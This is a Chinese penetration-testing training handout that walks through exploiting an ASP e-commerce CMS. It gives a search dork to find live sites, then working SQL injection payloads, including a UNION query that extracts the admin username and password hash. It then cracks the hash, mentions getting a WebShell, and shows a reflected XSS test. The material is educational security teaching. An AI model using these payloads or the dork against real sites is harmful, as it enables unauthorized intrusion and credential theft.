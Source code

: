 # 米斯特白帽培训讲义 实战篇 南方 0day

> 讲师：[gh0stkey](https://www.zhihu.com/people/gh0stkey/answers)

> 整理：[飞龙](https://github.com/)

> 协议：[CC BY-NC-SA 4.0](http://creativecommons.org/licenses/by-nc-sa/4.0/)

## 搜索

关键词：`inurl:"HomeMarket.asp"`。

## 下载与部署

http://www.jb51.net/article/5336.htm

## SQL 注入

我们打算检测其中的 SQL 注入漏洞，由于 ASP 代码基本没有什么好的过滤，一般一查一个准。为了搜索 SQL 注入漏洞，我们可以使用`sql`、`conn`这类名称、或者`execute`这类函数来定位到数据库查询低吗位置。

比如在`NewsType.asp`的 14 ~ 32 行，我们发现了：

```asp

<%
' ...
BigClass=request("BigClass")
SmallClass=request("SmallClass")
' ...
%>
<%
if BigClass<>"" and SmallClass<>"" then
sql="select  * from News where BigClassName='"& BigClass &"' and  SmallClassName='"& SmallClass &"' order by AddDate desc"
set rs=conn.execute(sql)
do while not rs.eof 
%>
```

我们看到这是文本型的参数，也就是说我们注入的时候要想办法闭合单引号。而且它用的是 Access 数据库，我们没办法像 MySQL 和 SQLServer 那样使用`--`来注释。

我们照旧为`SmallClass`输入`' and '1'='1`，构造的 URL 为`NewsType.asp?SmallClass=%27%20and%20%271%27=%271`，发现正常。

![](http://ww3.sinaimg.cn/large/841aea59jw1fb46h33bq8j20vm07qwfu.jpg)

输入`' and '1'='2`，构造的 URL 为`NewsType.asp?SmallClass=%27%20and%20%271%27=%272`，发现错误。

![](http://ww1.sinaimg.cn/large/841aea59jw1fb46jsnmdmj20vp066q39.jpg)

接下来我们查看源码目录下的`Databases/0791idc.mdb`，知道了`News`表一共有十个字段。

之后输入`' and 1=2 union select 1,2,3,4,5,6,7,8,9,0 from admin where '1'='1`，发现显示 2 和 9：

![](http://ww3.sinaimg.cn/large/841aea59jw1fb46jvpacxj20vo059dgj.jpg)

之后就很简单了，我们先看看`admin`表里面的用户名和密码都叫做啥。我们把 2 替换为`username`，9 替换为`password`。

![](http://ww1.sinaimg.cn/large/841aea59jw1fb46jzq1evj20w205l3za.jpg)

然后把`f3a976c77dc7264c`送到 pmd5 解密，结果为`060618`。

之后可以从`/admin`访问后台，登录并继续拿 WebShell。

## XSS

我们点击网站右上角的“联系我们”，可以发现这个页面的 URL 中出现了这四个字，页面中也出现了这四个字。

![](http://ww2.sinaimg.cn/large/841aea59jw1fb46k305u5j20v70gcdhm.jpg)

然后我们把 URL 中的`Title`参数改成`1`：

![](http://ww3.sinaimg.cn/large/841aea59jw1fb46k5xrwij20v90cidh9.jpg)

这就提示我们这里面可能会出现 XSS，我们改成`<script>alert(1)</script>`：

![](http://ww2.sinaimg.cn/large/841aea59jw1fb46k8imfgj20hc08mq3b.jpg)

我们看到源代码中出现了这个东西。

